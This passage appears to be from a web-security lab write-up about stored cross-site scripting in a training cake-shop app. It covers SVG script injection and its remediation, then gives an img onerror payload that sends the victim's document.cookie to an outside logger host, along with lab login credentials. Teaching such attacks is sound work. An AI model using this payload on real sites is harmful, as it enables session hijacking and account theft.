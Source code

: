 - SVG files can contain embedded JavaScript in `<script>` tags
- When the browser renders the SVG image, it executes the JavaScript
- The JavaScript runs in the context of the web application, giving it access to localStorage
- This is a **stored XSS** attack because the malicious SVG is permanently stored on the server

## Remediation

- **Sanitize SVG uploads**: Strip all `<script>` tags and event handlers from uploaded SVG files
- **Content-Security-Policy**: Set `script-src 'self'` to prevent inline scripts
- **Validate file content**: Don't just check file extensions; parse and validate SVG structure
- **Use httpOnly cookies**: Store tokens in httpOnly cookies instead of localStorage
- **Serve user content from separate domain**: Host user-uploaded files on a different domain to prevent same-origin access

# 7 SCHOGGI: Cross-Site Scripting (XSS) Level 2

## Attack Overview

Exploit a stored XSS vulnerability in the Comment functionality without using `<script>` tags. Use image `onerror` event handler to execute JavaScript that steals the victim's cookie.

## Why No Script Tags?

- The application filters `<script>` tags, or
- The client-side framework (e.g., Angular) prevents execution of dynamically inserted `<script>` tags
- Solution: Use alternative HTML elements with event handlers like `<img>` with `onerror`

## Attack Steps

1. **Login as attacker**: alice/alice.123
2. **Navigate** to a cake and click "MORE INFO"
3. **Use alternative payload**: Enter the following in a comment:

## Malicious Comment Payload

```html
<img
  src="x"
  onerror='fetch("https://logger-136f9d91-ef9a-4e8b-98c9-5e4ab7f27fc9.i.vuln.land/x-log/schoggi?cookie=" + encodeURIComponent(document.cookie))'
/>
```

## How It Works

1. The `<img src='x'>` tries to load an invalid image source
2. This triggers the `onerror` event handler
3. The JavaScript in `onerror` executes:
   - `document.cookie` retrieves the victim's cookie
   - `fetch()` sends it to the attacker's request logger
4. When victim (bob/bob.123) views the comment, the cookie is exfiltrated
